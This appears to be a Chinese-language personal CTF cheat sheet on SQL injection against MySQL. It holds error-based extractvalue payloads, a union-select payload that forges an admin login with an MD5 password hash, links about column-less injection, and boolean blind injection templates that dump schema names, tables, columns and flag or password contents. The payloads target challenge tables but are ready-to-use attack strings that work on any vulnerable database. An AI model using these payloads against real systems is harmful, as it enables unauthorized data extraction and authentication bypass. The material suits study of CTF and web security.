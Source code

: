 报错注入下，column等被ban:http://www.wupco.cn/?p=4117

```
tt=1'||extractvalue(0,concat(0x7e,(select * from (select * from output a join output b)  c)))%23

//output是表名。

//当flag不全时，也可以用Mid
tt=1'||extractvalue(0,concat(0x7e,mid((select data from output),20,60)))%23
```

[SQL注入-报错注入_extractvalue operand should contain 1 column(s)-CSDN博客](https://blog.csdn.net/qq_43691308/article/details/105499940?ops_request_misc=&request_id=&biz_id=102&utm_term=Subquery returns more than 1 r&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-2-105499940.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)

###### mysql在查询不存在的数据时会自动构建虚拟数据，一般数据要么明文，要么MD5

[BUUCTF--[GXYCTF2019\]BabySQli详解-CSDN博客](https://blog.csdn.net/x1520700/article/details/124921221?spm=1001.2101.3001.6650.4&utm_medium=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromBaidu~Rate-4-124921221-blog-122885889.235^v38^pc_relevant_sort_base1&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromBaidu~Rate-4-124921221-blog-122885889.235^v38^pc_relevant_sort_base1&utm_relevant_index=5)

payload:

​            name=1'+union+select+1,'admin','202cb962ac59075b964b07152d234b70'#&pw=123

查询1，但是没有1，于是就虚拟的创建了一个id=1,username=admin,pwd=202cb962ac59075b964b07152d234b70的一个表，接着查询就ok了。

###### 无列名注入

[[SWPU2019\] Web1 - 简书 (jianshu.com)](https://www.jianshu.com/p/a352261e0ad5)

[[SWPU2019\]Web1 - AikNr - 博客园 (cnblogs.com)](https://www.cnblogs.com/AikN/p/15725756.html)

![1707891806403](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1707891806403.png)

![1707891829750](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1707891829750.png)

###### 布尔盲注合集

```
1，
//爆库
0^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),0,1))<199)
//爆表
1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{0},1))={1})^1".format(num,ord(i))
//爆列名
1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='Flaaaaag')),{0},1))={1})^1".format(num,ord(i))    #爆列名
//爆内容
		payload='1^(ascii(substr((select(group_concat(fl4gawsl))from(Flaaaaag)),{0},1))={1})^1'.format(num,ord(i))
        payload='1^(ascii(substr(reverse((select(group_concat(password))from(F1naI1y))),{0},1))={1})^1'.format(num,ord(i))                           #爆字段


```
